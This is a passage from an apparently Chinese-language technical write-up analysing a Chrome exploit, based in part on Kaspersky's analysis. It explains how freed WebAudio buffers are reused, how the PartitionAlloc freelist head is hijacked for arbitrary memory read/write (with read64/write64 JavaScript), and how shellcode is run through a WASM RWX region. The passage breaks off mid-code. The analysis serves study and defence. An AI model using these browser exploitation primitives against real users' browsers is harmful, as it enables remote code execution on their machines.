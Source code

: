 以 `audioBufferArray1[j].getChannelData(0).buffer` 为缓冲，创建一个 `BigUint64Array` `auxArray` 就可以读写这块已经释放的内存。`auxArray` 开头的 8 字节已经被写入后继空闲块的地址，读出这个地址，计算出本页面元数据的地址，用元数据的地址替换后续空闲块地址，之后申请多个 8 字节的 `ArrayBuffer`，直到 `auxArray` 被填充成 0。`auxArray` 只有到被当做 `ArrayBuffer` 分配出来时，才会被 `ArrayBuffer` 的构造函数填 0。这个时候元数据中的 FreeListHead，已经被写入了之前在 `auxArray[0]` 中存储的值 `&FreeListHead`，也就是说这个时候 FreeListHead 指向了它本身。之后在申请 8 字节的 `ArrayBuffer`，就把 FreeListHead 所在内存块当做 `ArrayBuffer` 分配出，这样一来，修改 `freelist[0]` 的值，就相当于修改 FreeListHead 的指向。把 `freelist[0]` 改成任意地址，再申请 8 字节的 `ArrayBuffer`，就得到了指向这个地址 `ArrayBuffer`，也就是得到了任意地址读写的能力。另外由于 FreeListHead 已经被我们“挪用”了，为了保证利用代码的稳定，申请到的 8 字节对象都不能再被释放了，需要加入到 gcPreventer 数组中防止 GC 回收。

---

**ℹ️NOTE***: 卡巴斯基的分析中提到，这部分代码还有整理碎片内存，提升漏洞利用稳定性的作用，水平所限我还不能理解这部分功能，这里先忽略了。

---

```JavaScript
function read64(rwHelper, addr) {
  rwHelper[0] = addr;
  var tmp = new BigUint64Array;
  tmp.buffer;
  gcPreventer.push(tmp);
  return byteSwapBigInt(rwHelper[0]);
}

function write64(rwHelper, addr, value) {
  rwHelper[0] = addr;
  var tmp = new BigUint64Array(1);
  tmp.buffer;
  tmp[0] = value;
  gcPreventer.push(tmp);
}
```

`freeList` 配合上这两个函数，就可以实现任意内存读写了。`read64` 把目标地址填入链表头，之后申请内存，就相当于读取链表头地址的前 8 字节，交换大小端后存入链表头。`write64` 把目标地址存入链表头，之后申请内存，申请到的内存块就指向之前填入的地址，写入此内存块就是写入目标地址。

#### 执行 shellcode

接下来执行 shellcode：

- 实例化 WASM 模块构造一段 RWX 内存区域，将导出函数 main 赋值到 wasmFuncA
- 预测 fileReaderLoader 的地址
- 创建 fileReader，将 fileReader.onerror 设置为 wasmFuncA
- 用 fileReaderLoader 计算出 fileReader 的地址，再从 fileReader 的事件处理中读取到 wasmFuncA ，最终读取到 RWX 内存区的地址
- 预测 `WTF::ArrayBuffer` 的地址，之后创建 `AudioBuffer`
- 根据预测的 `ArrayBuffer` 的地址，改写 `ArrayBuffer` 指向到 RWX 内存区域
- 把 shellcode 写入 `ArrayBuffer`
- 调用 wasmFuncA，触发 shellcode 执行

获取 filereaderLoader 对象地址的方法需要额外说明下，前面介绍过每个 Partition 都有一组桶，用来查找包含指定大小内存块的 PartitionPage，如果可以读到这个桶中当前存放的数据，就可以预测到下次内存分配的结果，`getPartitionPageFreeListHeadEntryBySlotSize` 就是按照这个思路实现的，PartitionPage 的元数据中存放了指向桶的指针，已知 `iirFilterFeedforwardAllocationPtr` 指向 0x30 字节的内存块，可以利用它的值读到 0x30 的桶，所有的桶共都存储在同一个数组中，有了 0x30 的桶，我们加上固定的偏移，就可以得到其他大小的桶。从桶中读出活动页面 PartitionPage 元数据的指针，再从元数据中读出下一个空闲内存块的地址。

```JavaScript
async function kickPayload(auxArray) {

...
	// 接上部分
	const wasmBuffer = new Uint8Array([0, 97, 115, 109, 1, 0, 0, 0, 1, 133, 128, 128, 128, 0, 1, 96, 0, 1, 127, 3, 130, 128, 128, 128, 0, 1, 0, 4, 132, 128, 128, 128, 0, 1, 112, 0, 0, 5, 131, 128, 128, 128, 0, 1, 0, 1, 6, 129, 128, 128, 128, 0, 0, 7, 145, 128, 128, 128, 0, 2, 6, 109, 101, 109, 111, 114, 121, 2, 0, 4, 109, 97, 105, 110, 0, 0, 10, 138, 128, 128, 128, 0, 1, 132, 128, 128, 128, 0, 0, 65, 42, 11]);
	const wasmBlob = new Blob([wasmBuffer], {
		type: "application/wasm"
	});

  const wasmUrl = URL.createObjectURL(wasmBlob);
```